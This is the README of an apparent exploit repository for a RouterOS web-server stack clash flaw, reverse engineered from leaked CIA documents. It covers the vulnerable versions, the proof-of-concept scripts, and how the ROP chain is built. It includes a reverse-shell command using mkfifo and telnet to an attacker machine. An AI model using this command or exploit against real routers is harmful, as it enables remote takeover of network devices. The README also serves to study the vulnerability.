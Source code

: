 # Chimay-Red
Reverse engineering of Mikrotik exploit from Vault 7 CIA Leaks  

See the PDF for more info 

# Vulnerable versions  
Until RouterOS 6.38.4  

What's new in 6.38.5 (2017-Mar-09 11:32):  
!) www - fixed http server vulnerability;

# Proof of concepts
## CrashPOC  
Simple crash sending -1 as content-length in post header 

## StackClashPOC  
Stack clash exploit using two threads, missing ROP chain

## StackClashROPSystem  
Stack clash exploit using two threads  with ROP chain to run bash commands  

For a reverse shell:  
```
$ nc -l -p 1234
$ ./StackClashROPsystem.py 192.168.8.1 www_binary "mkfifo /tmp/f && /bin/telnet 192.168.8.5 1234 < /tmp/f | /bin/bash 
 > /tmp/f 2>&1"
```
Where:  
- RouterOS IP: 192.168.8.1  
- PC IP: 192.168.8.5  

(As the ROP is dynamically created, you have to extract the www binary from the RouterOS firmware, check that the running version is the same)

# FAQ
#### Where does one get the chimay-red.py file, that this tool kit relies on?  
This is a reverse engineering of leaked CIA documentation.  
There is no chimay-red.py publicly available.  

#### I can't understand how the stack clash work.
I'll update the PDF as soon as I have enough time, anyway:  
We know that:  
- each thread has 128KB of stack  
- each stack of each thread is stacked on the top of the previous thread.  

Thanks to Content-Length and alloca macro we can control the Stack Pointer and where the post data will be written.  
If we send a Content-Length bigger than 128KB to socket of thread A, the Stack Pointer will point inside the stack of another thread (B) and so the POST data (of thread A) will be written inside the stack of thread B (in any position we want, we only need to adjust the Content-Length value).  
So now we can write a ROP chain in the stack of thread B starting from a position where a return address is saved.
When we close the socket of thread B, the ROP chain will start because the function that is waiting for data will return (but on our modified address).

The ROP chain that executes bash commands is using "dlsym" (present in the PLT) to find the address of "system".  
Once we have the address of system we construct the bash string looking for chunks of strings inside the binary and concatenating them in an unused area of memory.  
Then we return to the address of system passing as argument the address of the created bash string.  
